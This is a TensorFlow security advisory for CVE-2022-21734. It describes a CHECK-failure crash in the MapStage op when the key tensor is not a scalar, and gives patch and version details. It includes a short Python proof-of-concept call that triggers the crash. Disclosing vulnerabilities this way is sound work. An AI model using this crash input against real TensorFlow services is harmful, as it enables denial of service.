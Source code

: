 ## TFSA-2022-013: `CHECK`-failures in `MapStage`

### CVE Number
CVE-2022-21734

### Impact
The [implementation of `MapStage`](https://github.com/galeone/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/map_stage_op.cc#L519-L550) is vulnerable a `CHECK`-fail if the key tensor is not a scalar:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.MapStage(
    key = tf.constant(value=[4], shape= (1,2), dtype=tf.int64),
    indices = np.array([[6]]),
    values = np.array([-60]),
    dtypes = [tf.int64], capacity=0, memory_limit=0,
    container='', shared_name='', name=None
)
```

### Patches
We have patched the issue in GitHub commit [f57315566d7094f322b784947093406c2aea0d7d](https://github.com/galeone/tensorflow/commit/f57315566d7094f322b784947093406c2aea0d7d).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
